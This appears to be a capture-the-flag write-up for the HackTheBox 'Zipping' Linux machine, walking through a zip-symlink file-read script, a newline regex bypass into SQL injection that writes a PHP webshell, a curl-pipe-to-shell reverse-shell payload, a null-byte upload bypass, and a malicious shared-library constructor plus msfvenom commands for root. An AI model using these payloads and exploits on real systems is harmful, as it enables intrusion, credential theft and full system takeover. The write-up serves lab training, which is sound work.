





## Overview

---

> Zipping is a medium-difficulty Linux box hosting a PHP web application with a vulnerable file upload function. This function is susceptible to a file read exploit involving zip archives. By exploiting this flaw, I was able to obtain the application's source code, revealing a SQL injection vulnerability. I leveraged this vulnerability to write a webshell on the system. Additionally, I discovered that the user `rektsu` has sudo privileges over a binary, and misconfigurations in shared library objects can be exploited to gain root privileges.

---

## Enumeration

---

### Open Ports

I found two open ports using nmap:

- port 22 → OpenSSH
- port 80 → Apache Web server

```bash
# Nmap 7.94 scan initiated Fri Sep  1 17:12:31 2023 as: nmap -p22,80 -sV -sC -T4 -Pn -oA nmap/10.129.66.225 10.129.66.225
Nmap scan report for 10.129.66.225
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 9d:6e:ec:02:2d:0f:6a:38:60:c6:aa:ac:1e:e0:c2:84 (ECDSA)
|_  256 eb:95:11:c7:a6:fa:ad:74:ab:a2:c5:f6:a4:02:18:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### port 80 - HTTP

The headers give limited information, revealing only the Apache version in use, v2.4.54.

```bash
> http -ph 10.129.66.225
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 4094
Content-Type: text/html; charset=UTF-8
Date: Fri, 01 Sep 2023 11:53:53 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.54 (Ubuntu)
Vary: Accept-Encoding
```

The website appears to be an eCommerce platform specializing in watches. The presence of _shop_ and _work-with-us_ links on the index page hint at functionalities beyond static information. Additionally, `.php` extensions suggest the backend relies on PHP.


Probing further, I examined `shop/index.php`. It showcases several products that can be added to the cart. However, attempts to place an order appears inconsequential.


Clicking the `Work with Us` button redirects to `/upload.php`. The page has an intriguing functionality: the ability to upload zip files. The only peculiar condition is that the uploaded zip file must contain a PDF document within its structure.


### Directory bruteforcing

Before investigating the upload functionality, I opted to fuzz for hidden files and directories with ffuf. Unfortunately, the scan doesn't return additional results beyond what I had already discovered.

```bash
> ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.66.225/FUZZ -o ffuf_zipping.md -of md -t 100
...snip...
...snip...
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 63ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 63ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 63ms]
assets                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 62ms]
index.php               [Status: 200, Size: 16738, Words: 5717, Lines: 318, Duration: 66ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 59ms]
shop                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 56ms]
uploads                 [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 61ms]

```

---

## Initial Foothold

---

### Zip symlink file-read vulnerability

Upon successful upload of a valid zip file that met the specified condition, the system automatically extracts the contents of the archive. This part interests me, as it potentially introduces a compelling point of vulnerability. The prospect of a staff member subsequently interacting with the extracted PDF makes it even more interesting. The page also returns a link to view to extracted PDF file.

The very first vulnerability that comes to mind when considering automatic archive extraction is the [zip symlink attack](https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload). In essence, this involves adding a symlink to another file on the system within the archive. By accessing the decompressed file, one can potentially view the contents of the linked file.

Given that the uploaded zip requires a PDF file, creating a soft symlink from `/etc/hostname` to `file.pdf` suing `ln`. Moreover, during the compression of the file, the preservation of the symlink can be ensured by using the `-y` option.

```bash
> ln -s /etc/hostname file.pdf
> zip -y poc.zip file.pdf
  adding: file.pdf (stored 0%)
```

The newly crafted archive can be successfully uploaded, and as a result it returns a link to view the decompressed PDF file.



As anticipated, because `file.pdf` points to `/etc/hostname`, querying the file using the provided link reveals the contents of `/etc/hostname`.

```bash
> http -pb http://10.129.66.225/uploads/6d34d4685c1618ff320f6679d158c477/file.pdf
zipping
```

To streamline the process, I wrote a Python script that automates the creation of a symlink, then archiving and uploading, and finally viewing the decompressed file.

```python
#!/usr/bin/env python

import os
import re
import subprocess
import sys

import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

filePath = sys.argv[1]

username = ""
password = ""
url = "http://10.129.66.225/"
proxies = {"http": "http://127.0.0.1:8080"}

# files = {'file': ('xxe.xml', payload, 'text/xml')}

fileName = os.path.basename(filePath)

symlink_command = f"ln -s {filePath} symlink.pdf"
symlink_process = subprocess.Popen(symlink_command, shell=True)
symlink_process.wait()

if symlink_process.returncode != 0:
    print(f"Error symlinking: {symlink_process.returncode}")
    exit()
print("[+] Symlink created.")


zip_command = "zip -y exploit.zip symlink.pdf"
zip_process = subprocess.Popen(zip_command, shell=True)
zip_process.wait()

if zip_process.returncode != 0:
    print(f"Error zipping: {zip_process.returncode}")
    exit()
print("[+] File successfully zipped.")


with open("exploit.zip", "rb") as file:
    zip_content = file.read()

files = {
    "zipFile": ("exploit.zip", zip_content, "application/zip"),
    "submit": (None, "Submit"),
}

# print(files)

session = requests.Session()

response = session.post(
    url=url + "upload.php", files=files, proxies=proxies, verify=False
)

pattern = r"uploads/[0-9a-fA-F]{32}/symlink\.pdf"
match = re.search(pattern, response.text)

if not match:
    print("File not uploaded")

uploaded_path = match.group(0)
print(f"View file @ {url}/{uploaded_path}")

response = session.get(url=url + uploaded_path, proxies=proxies)
print(f"File content:\n{response.text}")

with open(fileName, "a") as f:
    f.write(response.text)

os.system("rm -rf symlink.pdf exploit.zip")
```

```bash
> python zipSymlink.py /etc/hostname
[+] Symlink created.
  adding: symlink.pdf (stored 0%)
[+] File successfully zipped.
View file @ http://10.129.66.225//uploads/05101da7a883e7887506fca8c88787ca/symlink.pdf
File content:
zipping
```

I was able to Identify a user named `rektsu` based on the information retrieved from the `/etc/passwd` file.

```bash
> python zipSymlink.py /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
rektsu:x:1001:1001::/home/rektsu:/bin/bash
```

As per the Apache configuration file, the root directory for the website is located at `/var/www/html`.

```bash
> python zipSymlink.py /etc/apache2/sites-available/000-default.conf
...snip...
...snip...
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html

    <Directory /var/www/html/uploads>
        Options -Indexes
    </Directory>
...snip...
```

By using the document root, I accessed the source code of the page at `shop/index.php` (`/var/www/html/shop/index.php`). The code includes PHP files, with the limitation that it appends a `.php` to the value of the page parameter, allowing only the inclusion of PHP files. Despite not knowing the PHP version, my initial attempt to use a null byte (`index.php?page=/etc/hostname%00`) proved unsuccessful, indicating a PHP version likely greater than 8.

_shop/index.php_

```php
<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default, so when the visitor visits, that will be the page they see.
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
include $page . '.php';
?>
```

The `index.php` file includes a `function.php` file, presumably situated in the same directory. In the `shop/functions.php` file, I found credentials for the MySQL database: `root:MySQL_P@ssw0rd!`. It also references a `products.php` file.

_shop/functions.php_

```php
?php
function pdo_connect_mysql() {
    // Update the details below with your MySQL details
    $DATABASE_HOST = 'localhost';
    $DATABASE_USER = 'root';
    $DATABASE_PASS = 'MySQL_P@ssw0rd!';
    $DATABASE_NAME = 'zipping';
    try {
        return new PDO('mysql:host=' . $DATABASE_HOST . ';dbname=' . $DATABASE_NAME . ';charset=utf8', $DATABASE_USER, $DATABASE_PASS);
---snip---
                    <a href="index.php">Home</a>
                    <a href="index.php?page=products">Products</a>
---snip---
```

### Writing a webshell using SQLi

The source for `products.php` is much more interesting. It directly incorporates the `id` parameter from the GET parameters into a SQL query.

_products.php_

```php
<?php
// Check to make sure the id parameter is specified in the URL
if (isset($_GET['id'])) {
    $id = $_GET['id'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
        header('Location: index.php');
    } else {
        // Prepare statement and execute, but does not prevent SQL injection
        $stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
        $stmt->execute();
        // Fetch the product from the database and return the result as an Array
        $product = $stmt->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if (!$product) {
            // Simple error to display if the id for the product doesn't exists (array is empty)
            exit('Product does not exist!');
        }
    }
} else {
    // Simple error to display if the id wasn't specified
    exit('No ID provided!');
}
?>
---snip---
        <form action="index.php?page=cart" method="post">
---snip---
```

The `preg_match()` function is utilized to filter the contents of the `id` parameter, but it only ensures that the payload ends with a number without much other filtering.

```php
if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $id, $match)) {
        header('Location: index.php');
    }
```

I can [bypass the regex check using a new line](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#new-line-bypass) (`%0A`) in the payload.
This can be confirmed by setting the id parameter to `%0A2`, which loads the same product as when the id parameter is set to 2.

 bypass")

Furthermore, given that PDO is used for preparing SQL queries, it's worth noting that PDO [permits consecutive multiple queries](https://blog.ulf-wendel.de/2008/pdo_mysqlnd-insecure-multi-statements-and-pdostatementnextrowset/) separated by a new line.

A payload like this (URL-encoded new line followed by a SQL query to write to a file) should successfully bypass the regex check and write code to execute `phpinfo()` at the specified location using mysql's `SELECT...INTO OUTFILE`. It's interesting that the `/tmp` directory didn't work for writing, but `/dev/shm` functions as expected for some reason.

```bash
%0A';select '<?php phpinfo();?>' into outfile '/dev/shm/poc.php' #2
```

This can be verified by using the PHP inclusion functionality at `/shop/index.php?page=`.



Now, with the ability to execute code, I use URL-encoded version of this payload to fetch a script containing a reverse shell payload from my attack box and execute it, ultimately obtaining a shell.

```bash
%0A';select '<?php system("curl http://10.10.14.42/shell_payload.sh | sh");?>' into outfile '/dev/shm/shell.php' #2
```

<!--  -->

The process involves invoking the file at `/dev/shm/shell.php`, which retrieves the hosted `shell_payload.sh` file from my attack box and executes it, giving a shell.

```bash
http zipping.htb/shop/index.php page==/dev/shm/shell
```

```bash
> pc -lp 9005
[23:32:21] Welcome to pwncat 🐈!                                                                    __main__.py:164
[23:48:29] received connection from 10.129.66.225:45182                                                  bind.py:84
[23:48:30] 0.0.0.0:9005: upgrading from /usr/bin/dash to /usr/bin/bash                               manager.py:957
[23:48:31] 10.129.66.225:45182: registered new host w/ db                                            manager.py:957
(local) pwncat$
(remote) rektsu@zipping:/$ id
uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)
```

## Unintended Foothold (Patched)

### Null Byte Injection

I decided to fetch the source code of the upload functionality to analyze it. Given that the application provides a link to view the decompressed file, uploading a PHP file within the archive could potentially allow the execution of malicious code.

```php
<?php
if(isset($_POST['submit'])) {
  // Get the uploaded zip file
  $zipFile = $_FILES['zipFile']['tmp_name'];
  if ($_FILES["zipFile"]["size"] > 300000) {
    echo "<p>File size must be less than 300,000 bytes.</p>";
  } else {
    // Create an md5 hash of the zip file
    $fileHash = md5_file($zipFile);
    // Create a new directory for the extracted files
    $uploadDir = "uploads/$fileHash/";
    // Extract the files from the zip
    $zip = new ZipArchive;
    if ($zip->open($zipFile) === true) {
      if ($zip->count() > 1) {
      echo '<p>Please include a single PDF file in the archive.<p>';
      } else {
      // Get the name of the compressed file
      $fileName = $zip->getNameIndex(0);
      if (pathinfo($fileName, PATHINFO_EXTENSION) === "pdf") {
        mkdir($uploadDir);
echo exec('7z e '.$zipFile. ' -o' .$uploadDir. '>/dev/null');
        echo '<p>File successfully uploaded and unzipped, a staff member will review your resume as soon as possible. Make sure it has been uploaded correctly by accessing the following path:</p><a href="'.$uploadDir.$fileName.'">'.$uploadDir.$fileName.'</a>'.'</p>';
      } else {
        echo "<p>The unzipped file must have  a .pdf extension.</p>";
      }
     }
    } else {
      echo "Error uploading file.";
    }

  }
}
?>
```

The code checks if the archive contains a PDF file using the `pathinfo()` function which can be bypassed using a [null byte](https://www.thehacker.recipes/web/inputs/null-byte-injection) (\x00).

```php
php > echo pathinfo("shell.php%00.pdf", PATHINFO_EXTENSION);
PHP Parse error:  syntax error, unexpected token "echo", expecting "," or ";" in php shell code on line 2
php > echo pathinfo("shell.php\x00.pdf", PATHINFO_EXTENSION);
pdf
```

To add in a null byte, I used the char `#` as a place holder and then replaced it using iamhex.

```bash
> zip rce.zip webshell.php\#.pdf
> strings rce.zip
webshell.php#.pdfUT
...snip...
webshell.php#.pdfUT
> imhex rce.zip &
```



Now when I run strings on the file, the # is replaced

```bash
> strings rce.zip
webshell.php
.pdfUT
...snip...
webshell.php
.pdfUT
```

Upon uploading the malicious archive, the application returns a link to view the decompressed file, which, in reality, acts as a webshell payload.



navigating to `/upload/<md5sum>/webshell.php` gives a shell as `rektsu`.

```bash
> pc -lp 9005
[23:32:21] Welcome to pwncat 🐈!                                                                    __main__.py:164
[23:48:29] received connection from 10.129.66.225:45182                                                  bind.py:84
[23:48:30] 0.0.0.0:9005: upgrading from /usr/bin/dash to /usr/bin/bash                               manager.py:957
[23:48:31] 10.129.66.225:45182: registered new host w/ db                                            manager.py:957
(local) pwncat$
(remote) rektsu@zipping:/$ id
uid=1001(rektsu) gid=1001(rektsu) groups=1001(rektsu)
```

**_This vulnerability was patched a few weeks after the box was release_**

---

## Privilege Escalation

---

The user `rektsu` has sudo privileges to execute the `/usr/bin/stock` binary as the root user.

```bash
(remote) rektsu@zipping:/home/rektsu$ sudo -l
Matching Defaults entries for rektsu on zipping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rektsu may run the following commands on zipping:
    (ALL) NOPASSWD: /usr/bin/stock
```

Unfortunately, the binary requires a password to proceed.

```bash
(remote) rektsu@zipping:/home/rektsu$ stock
Enter the password: 123
Invalid password, please try again.
```

Executing the `strings` command on the binary reveals two potential passwords and makes reference to a CSV file in the root directory.

```bash
(remote) rektsu@zipping:/home/rektsu$ strings /usr/bin/stock

Hakaize
St0ckM4nager
/root/.stock.csv
Enter the password:
Invalid password, please try again.
================== Menu ==================
1) See the stock
2) Edit the stock
3) Exit the program
Select an option:
You do not have permissions to read the file
File could not be opened.
================== Stock Actual ==================
Colour     Black   Gold    Silver
Amount     %-7d %-7d %-7d
Quality   Excelent Average Poor
Amount    %-9d %-7d %-4d
Exclusive Yes    No
Amount    %-4d   %-4d
Warranty  Yes    No
================== Edit Stock ==================
Enter the information of the watch you wish to update:
Colour (0: black, 1: gold, 2: silver):
Quality (0: excelent, 1: average, 2: poor):
Exclusivity (0: yes, 1: no):
Warranty (0: yes, 1: no):
Amount:
Error: The information entered is incorrect
%d,%d,%d,%d,%d,%d,%d,%d,%d,%d
The stock has been updated correctly.
```

### Investigating binary

To further analyze the binary, I downloaded it locally as the box lacked the `ltrace` tool. It's evident that the entered password is compared to the string `St0ckM4nager`.

```bash
> ltrace ./stock
printf("Enter the password: ")                                        = 20
fgets(Enter the password: 123
"123\n", 30, 0x7f1f74709aa0)                                    = 0x7ffd232c0f00
strchr("123\n", '\n')                                                 = "\n"
strcmp("123", "St0ckM4nager")                                         = -34
puts("Invalid password, please try aga"...Invalid password, please try again.
)                           = 36
+++ exited (status 1) +++
```

After rerunning `ltrace` with the correct password, I noticed that a shared library gets loaded. What caught my attention is that this library is stored at `/home/rektsu/.config/libcounter.so`, a location accessible to me as the user rektsu.

```bash
> ltrace -s 50 ./stock
printf("Enter the password: ")                                                                                       = 20
fgets(Enter the password: St0ckM4nager
"St0ckM4nager\n", 30, 0x7f713dc51aa0)                                                                          = 0x7ffdd7b61f90
strchr("St0ckM4nager\n", '\n')                                                                                       = "\n"
strcmp("St0ckM4nager", "St0ckM4nager")                                                                               = 0
dlopen("/home/rektsu/.config/libcounter.so", 1)                                                                      = 0
puts("\n================== Menu ==================\n"
...snip...
```

Unfortunately, `strace` doesn't give any new information.

```bash
write(1, "Enter the password: ", 20Enter the password: )    = 20
read(0, St0ckM4nager
"St0ckM4nager\n", 1024)         = 13
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
```

### Disassembly with gdb (Alternative)

I can also use gdb to disassemble the binary and inbvstigate it.

```bash
❯ gdb ./stock
GNU gdb (Debian 13.2-1) 13.2

Reading symbols from ./stock...
(No debugging symbols found in ./stock)


(gdb) disassemble main
Dump of assembler code for function main:
   0x00000000000012ba <+0>: push   %rbp
   0x00000000000012bb <+1>: mov    %rsp,%rbp
   0x00000000000012be <+4>: sub    $0x100,%rsp
<---snip--->
   0x00000000000013db <+289>:  mov    %rax,%rdi
   0x00000000000013de <+292>:  call   0x10b0 <dlopen@plt>
   0x00000000000013e3 <+297>:  mov    %rax,-0x20(%rbp)
<---snip--->
```

The [dltopen()](https://unix.stackexchange.com/questions/611730/does-dlopen-performs-dynamic-linking-by-invoking-dynamic-linker-ld-linux-so) call was interesting, it is supposed to load a library dynamically and store the return value. Ideally, `rax` is supposed to store the return value and `rdi` is typically the first argument passed to a function call. This means `rdi` would contain the first argument for the dynamic linking i.e. the library.

To investigate this, I set a breakpoint at the dltopen() call, and run the binary again.
`b *main +292` sets a breakpoint on main at an offset of 292.

```bash
(gdb) b *main +292
Breakpoint 2 at 0x5555555553de
(gdb) info b
Num     Type           Disp Enb Address            What
2       breakpoint     keep y   0x00005555555553de <main+292>
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/kali/HTB/Zipping/loot/stock
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Enter the password: St0ckM4nager

Breakpoint 2, 0x00005555555553de in main ()
(gdb) info registers
rax            0x7fffffffd400      140737488344064
rbx            0x7fffffffd5f8      140737488344568
rcx            0x7a                122
rdx            0x6f                111
rsi            0x1                 1
rdi            0x7fffffffd400      140737488344064
<---snip--->
```

Now, when I step into the dltopen() function, I can see the arguments to it. Alternatively, I can also use the `examine/string` or `x/s` gdb command to dump the contents of the rdi register.

```bash
(gdb) step
Single stepping until exit from function main,
which has no line number information.
___dlopen (file=0x7fffffffd400 "/home/rektsu/.config/libcounter.so", mode=1) at ./dlfcn/dlopen.c:77
77  ./dlfcn/dlopen.c: No such file or directory.

(gdb) x/s $rdi
0x7fffffffd400: "/home/rektsu/.config/libcounter.so"
(gdb) c
Continuing.

================== Menu ==================

1) See the stock
2) Edit the stock
3) Exit the program

Select an option:
```

This means the `/home/rektsu/.config/libcounter.so` library is dynamically linked password after entering the password.

### Shared library object exploit

I found a [blog post](https://tbhaxor.com/exploiting-shared-library-misconfigurations/) that explained how to exploit shared library injection.

_exploit.c_

```c
#include <stdio.h>
#include <stdlib.h>

static void exploit() __attribute__((constructor));

void exploit() {
        setuid(0);
        system("/bin/bash -p");
}
```

The `__attribute__((constructor))` attribute ensures that the `exploit()` function will be automatically called when the shared library is loaded, before the `main()` of `stock` is executed.

Compiling the exploit as a shared library

- `-shared` tells the gcc compiler to create a shared library
- `-fPIC` generates Position Independent Code . _This is required because the shared object should be able to be loaded and executed at any memory address_

```bash
> gcc -shared -o libcounter.so -fPIC exploit.c
> l
Permissions Size User Date Modified Name
.rw-r--r--   130 kali  2 Sep 01:12  exploit.c
.rwxr-xr-x   15k kali  2 Sep 01:12  libcounter.so
```

Uploaded the shared library to the required location on the box and made it executable.

```bash
(remote) rektsu@zipping:/home/rektsu$
(local) pwncat$ upload ../exploit/root/libcounter.so .config/libcounter.so
.config/libcounter.so ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 15.4/15.4 KB • ? • 0:00:00
[01:32:39] uploaded 15.43KiB in 0.94 seconds                                                           upload.py:76
(local) pwncat$
(remote) rektsu@zipping:/home/rektsu$ chmod +x .config/libcounter.so
```

Now, by executing the binary as root and supplying the valid password, it triggers the `bash -p` from the exploit code, granting a shell with root privileges.

```bash
(remote) rektsu@zipping:/home/rektsu$ sudo /usr/bin/stock
Enter the password: St0ckM4nager
root@zipping:/home/rektsu# id
uid=0(root) gid=0(root) groups=0(root)
root@zipping:/home/rektsu# cd
root@zipping:~# ls -l root.txt
-rw-r----- 1 root root 33 Sep  1 11:10 root.txt
````

Another option is to use msfvenom to build the malicious shared object.

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.42 LPORT=4444 -f elf-so -o libcounter.so
msfvenom -p linux/x64/shell/reverse_tcp LHOST=10.10.14.42 LPORT=4444 -f elf-so -o libcounter.so
```

**Pwned**

# 

---

# Related Links

- [File Upload - HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload)
- [Arbitrary local file read via file upload - Vulnerabilities - Acunetix](https://www.acunetix.com/vulnerabilities/web/arbitrary-local-file-read-via-file-upload/)
- [PHP Tricks - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#new-line-bypass)
- [php - PDO support for multiple queries (PDO_MYSQL, PDO_MYSQLND) - Stack Overflow](https://stackoverflow.com/questions/6346674/pdo-support-for-multiple-queries-pdo-mysql-pdo-mysqlnd)
- [PDO_MYSQLND: Mighty multiple-queries and PDOStatement - Ulf Wendel](https://blog.ulf-wendel.de/2008/pdo_mysqlnd-insecure-multi-statements-and-pdostatementnextrowset/)
- [SELECT INTO OUTFILE - MariaDB Knowledge Base](https://mariadb.com/kb/en/select-into-outfile/)
- [Abusing missing libraries for Privilege Escalation | by Nishant Sharma | Pentester Academy Blog](https://blog.pentesteracademy.com/abusing-missing-library-for-privilege-escalation-3-minute-read-296dcf81bec2)
- [Exploiting Shared Library Misconfigurations](https://tbhaxor.com/exploiting-shared-library-misconfigurations/)
